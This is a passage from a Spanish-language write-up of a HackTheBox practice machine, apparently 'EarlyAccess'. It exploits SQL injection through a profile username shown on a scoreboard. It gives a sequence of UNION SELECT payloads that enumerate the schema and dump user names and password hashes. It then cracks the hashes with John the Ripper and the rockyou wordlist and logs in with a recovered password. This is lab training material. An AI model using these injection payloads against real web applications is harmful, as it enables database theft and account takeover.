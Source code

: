 Recordemos que en el foro hablaban que había un error en la parte del scoreboard
relacionado con el nombre de usuario.
<img
src='https://res.cloudinary.com/djc1umong/image/upload/v1686605741/scoreboard_comment_nhpere.webp'
width={592}
height={296}
/>

Nos vamos a la pestaña de Perfil y añadimos una <i>'</i> al final de nuestro nombre
retornamos al scoreboard...
<img
src='https://res.cloudinary.com/djc1umong/image/upload/v1686605758/scoreboard_error_gxlxnq.webp'
width={1266}
height={277}
/>

Basado en la respuesta, añadimos un paréntesis al final, actualizamos nuestro
nombre de usuario <i>leonardo') -- -</i> y vemos que en el score no tenemos error
es una buena señal porque ahora podremos leer la DB.

Hay muchas formas de tener acceso basado en <i>SQL</i> nosotros usaremos la siguiente
lógica.

```bash
leonardo') order by 3-- -

leonardo') union select 1, 2, database()-- -

leonardo') union select 1, 2, table_name from information_schema.tables where table_schema="db"-- -

leonardo') union select 1, 2, table_name from information_schema.tables where table_schema=0x6462-- -

leonardo') union select 1, 2, column_name from information_schema.columns where table_schema=0x6462 and table_name='users'-- -

leonardo') union select 1, 2, group_concat(name, 0x3a, password) from users-- -
```

<img
src='https://res.cloudinary.com/djc1umong/image/upload/v1686605786/passwords_yjhkov.webp'
width={1287}
height={357}
/>

Guardamos el texto en un archivo <i>hash.txt</i> para luego intentar romperlo con <a src='https://github.com/openwall/john' target='_blank'>jhon</a>.

```bash
jhon --wordlist=/usr/share/wordlists/rockyou.txt hash
```

!SAS¡Iniciamos sesión en <i>https://dev.earlyaccess.htb/index.php</i> con la contraseña <i>gameover</i>.
